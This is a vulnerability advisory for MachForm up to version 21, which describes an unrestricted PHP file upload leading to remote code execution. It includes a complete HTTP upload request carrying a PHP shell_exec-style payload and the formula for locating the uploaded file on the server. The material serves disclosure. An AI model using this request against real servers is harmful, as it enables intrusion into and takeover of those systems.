



# Description
MachForm up to version 21 is affected by an authenticated unrestricted file upload which leads to a remote code execution.

The application offers the possibility of a creation of a form with a file upload functionality. While by default the accepted files are restricted to a common safe subset, the form creator can also specify additional formats which are allowed.

If a user with form creation rights makes a form with file upload functionality where _“PHP”_ format is allowed, any unauthenticated user can exploit this form to obtain Remote Code Execution.
# Risk
- Severity: Critical
- CVSS v3.1 Score: 9.9
- CVSS v3.1 Vector: [**AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H**](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H&version=3.1)
# Affected Resources
- Version: up to MachForm v21
- https://<application-baseurl\>/upload.php
# Evidence
In order to exploit this vulnerability, it is required to have a form with file upload functionality enabled which has _“PHP”_ extensions whitelisted.



Once this prerequisite is achieved, any unauthenticated user can navigate to the form to exploit the file upload vulnerability.

Files uploaded to the form, <b><u>which have not yet been submitted within the form</u></b>, are uploaded on the web server in a pre-determined directory with a .tmp format.



Request:
```
POST /upload.php HTTP/1.1
Host: application-baseurl
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://application-baseurl
Content-Type: multipart/form-data; boundary=---------------------------6934955361623015052738262130
Content-Length: 657
Origin: https://application-baseurl
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

-----------------------------6934955361623015052738262130
Content-Disposition: form-data; name="Filedata"; filename="whoami.php"
Content-Type: application/x-php

<?php
echo 'whoami = '.exec('/usr/bin/whoami');
?>
-----------------------------6934955361623015052738262130
Content-Disposition: form-data; name="form_id"

62461
-----------------------------6934955361623015052738262130
Content-Disposition: form-data; name="element_id"

1
-----------------------------6934955361623015052738262130
Content-Disposition: form-data; name="file_token"

9d96df33b71cadaad638c20f0540da39
-----------------------------6934955361623015052738262130--
```

The full path of the uploaded file can be built using the upload request, which contain all the required fields:

/data/form_{form_id}/files/element_{element_id}_{file_token}-{file_name}.php.tmp

In this scenario, the uploaded file URL will be the following:

/data/form_62461/files/element_1_9d96df33b71cadaad638c20f0540da39-whoami.php.tmp



Once obtained Remote Code Execution, it is possible to operate directly on the target server which would allow to acquire access beyond the scope of the application and would allow reading sensitive information or altering/deleting core components.